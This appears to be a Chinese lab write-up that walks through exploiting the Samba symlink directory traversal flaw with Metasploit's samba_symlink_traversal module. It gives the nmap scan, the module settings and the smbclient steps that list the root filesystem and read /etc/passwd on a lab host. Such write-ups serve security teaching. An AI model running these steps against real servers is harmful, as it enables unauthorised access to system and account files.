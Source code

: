 ```yaml
---
title: sysmlink漏洞
date: 2021-12-20 16:32:26
tags: 
    - sysmlink
    - msf
---
```


## sysmlink 目录遍历漏洞

### 利用sysmlink漏洞读取目标主机的passwd文件内容

#### 原理：Samba是一套实现SMB（server messages block）协议，跨平台进行文件共享和打印共享服务的程序，samba的sambd默认配置在可写文件共享时，存在目录遍历漏洞，远程用户可以通过smbclient端使用一个对称命，创建一个包含..的目录遍历符的软连接 ，可以进行目录遍历以及访问任意文件。

### 过程：

使用`nmap -sV ip` 扫描主机，确认开放`445`，`139`端口且安装了`samba`服务，版本为3

![image-20211220165606561](https://121.5.125.62:88/image/sysmlink漏洞/image-20211220165606561.png)

命令行输入`search samba`，搜索samba的相关工具和载荷。

![image-20211220173445099](https://121.5.125.62:88/image/sysmlink漏洞/image-20211220173445099.png)

终端中输入`use auxiliary/admin/smb/samba_symlink_traversal`，启用漏洞利用模块

输入`info`，`"yes"`表示必须要填写的信息

![image-20211220173527544](https://121.5.125.62:88/image/sysmlink漏洞/image-20211220173527544.png)

输入`set RHOST 192.168.1.3`和`set SMBSHARE tmp`，设置主机ip地址和SAM可写文件

输入exploit开始攻击

![image-20211220173602852](https://121.5.125.62:88/image/sysmlink漏洞/image-20211220173602852.png)

新建终端，输入`smbclient //192.168.1.3/tmp`，直接回车，无密码

输入`cd rootfs`,进入rootfs目录，输入ls，列出目录

![image-20211220173635907](https://121.5.125.62:88/image/sysmlink漏洞/image-20211220173635907.png)

输入`more /etc/passwd`

![image-20211220173656794](https://121.5.125.62:88/image/sysmlink漏洞/image-20211220173656794-16399930170041.png)

此实验完成
